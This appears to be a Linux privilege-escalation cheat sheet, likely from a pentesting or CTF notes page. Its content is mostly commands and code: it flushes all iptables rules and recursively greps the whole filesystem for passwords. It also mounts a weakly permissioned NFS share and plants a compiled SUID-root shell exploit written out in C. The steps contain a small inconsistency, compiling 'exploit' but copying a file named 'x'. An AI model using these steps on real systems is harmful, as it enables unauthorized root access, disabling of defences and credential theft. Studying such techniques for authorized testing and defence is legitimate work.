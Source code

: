 Re-configure Linux firewall -> enable access to a previously filtered port/service -> privesc:
```bash
$ /sbin/iptables -L        # list firewall rules
$ /sbin/iptables --flush   # delete all firewall rules
```


Hardcoded credentials, backup ssh keys, interesting files
```
# Recursive grep, match regex pattern, ignoring case for all files from the root directory.
$ grep -Rei 'password|username|[pattern3]|[pattern4]' /

# Backups (Debian)
$ ls -l /var/backups
```

Localhost listening ports:
* Look for ports that were not exposed to your initial public nmap scan.
```bash
$ netstat -alntp
```

Exploit weak NFS permissions for privesc #1 (check `cat /etc/exports`):
(/etc/exports is table of local physical file systems on an NFS server that are accessible to NFS clients)
```bash
$ showmount -e 192.168.xx.53                               # check for 
shares
Export list for 192.168.xx.53:
/shared 192.168.xx.0/255.255.255.0
$ mkdir /tmp/mymount
/bin/mkdir: created directory '/tmp/mymount'
$ mount -t nfs 192.168.xx.53:/shared /tmp/mymount -o nolock # mount share
$ cat /root/Desktop/exploit.c
#include <stdio.h>
#include <unistd.h>
int main(void)
{
setuid(0);
setgid(0);
system("/bin/bash");
}
gcc exploit.c -m32 -o exploit

$ cp /root/Desktop/x /tmp/mymount/
$ chmod u+s exploit
```

Exploit weak NFS permissions for privesc #2
* https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/

/etc/fstab  (check `cat /etc/fstab`):
* Look for un-mounted file-systems
* Look for file-systems with vulnerabilities e.g. ReiserFS privesc

UDEV
* Guide: http://www.madirish.net/370
* Exploit Code: https://www.exploit-db.com/exploits/8478
